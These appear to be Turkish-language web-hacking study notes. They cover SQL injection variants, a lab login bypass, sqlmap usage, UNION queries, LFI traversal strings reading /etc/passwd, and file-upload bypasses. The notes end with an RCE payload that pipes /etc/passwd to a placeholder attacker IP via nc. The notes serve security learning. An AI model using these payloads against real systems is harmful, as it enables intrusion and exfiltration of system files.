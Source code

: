 **- SELECT:** SELECT CustomerName,City FROM Customers where City='Berlin';

**- INSERT:** INSERT INTO calısanlar VALUES("Sinan","Kemal");

- SQL Syntax: 

	Yorum satırı => -- veya #

**- Error Based SQL Injection:** Eğer yazdığımız parametreden kaynaklı bir sql hatası oluşuyorsa sql injection olduğuna kanaat getirebiliriz.

**- Blind SQL Injection:** False ya da True değerler döndüren açıklıklara blind sql denir.

**- Time Based SQL Injection:** Veritabanının bize sağladığı delay fonksiyonu sayesinde ne kadar beklediğimize göre karar verdiğimiz açık türleridir.

**- Boolean Based SQL Injection:** Boolean kullanarak oluşturulan SQL injection'ları. (1 or 1=1)

**- SQL Injection Login Bypass**

	B> isube.bgabank.com/giris.aspx

	Burp > Proxy -> Request header'ini repeater'a yolla.

	Captcha çıktıktan sonra captcha ile istek yaptığımız headeri repeater'a yolla.

	b_muaterino=10000001"--&b_password=12342342342&captcha=seaerbf

**- Sqlmap ile SQL Injection İstismarı**

	=> sqlmap -u url -p id --dbs	(-p = parametre)

**- UNION Komutu:**

	=> .php?id=2 union select 1,2,3-- 	(UNION komutu birden fazla sorgu çekmemizi sağlar. Ancak yapılan sorguların sütun sayısı eşit olmalıdır.

	=> .php?id=2 and 1=0 union 1,version(),3-- 

## LFI/RFI

**- LFI:** Yerel dosya dahil etme

**- RFI:** Uzaktaki dosyayı dahil etme

	B> wwww.wellho.net/resources/ex.php4item=<payload>
		../../../../../etc/passwd
		..%2f..%2f..%2f..%2fetc%2fpasswd
		..././..././..././etc/passwd
		...%2f.%2f...%2f.%2f...%2f.%2fetc%2fpasswd

## Dosya yükleme

- Uzantı: shell.jpg.aspx

- Boyut: DOS için kullanılabilir.

- Dosya Tipi: Header'daki Content-Type kontrol ediliyorsa Burp Suite kullanarak repeater'da .jpg.aspx karşıya geçtikten sonra uzantıdaki jpg'yi silip .aspx bırakabiliriz.

- Dosya Adı: HEADER'da dosya adını değiştirerek güvenlikleri atlatabiliriz. 
	GET ../shell.php HTTP/1.1

## RCE

**- Remote Code Execution/Injection:** shell_exec, passthru, eval benzeri komutların parametreleri, kullanıcıdan girdi olarak alınıyor ise kod enjekte edilebilir

	=> REQUEST HEADER'ın en altına yerleştir:
		require('child_process').exec('cat+/etc/passswd+|+nc+OUR_IP+80')

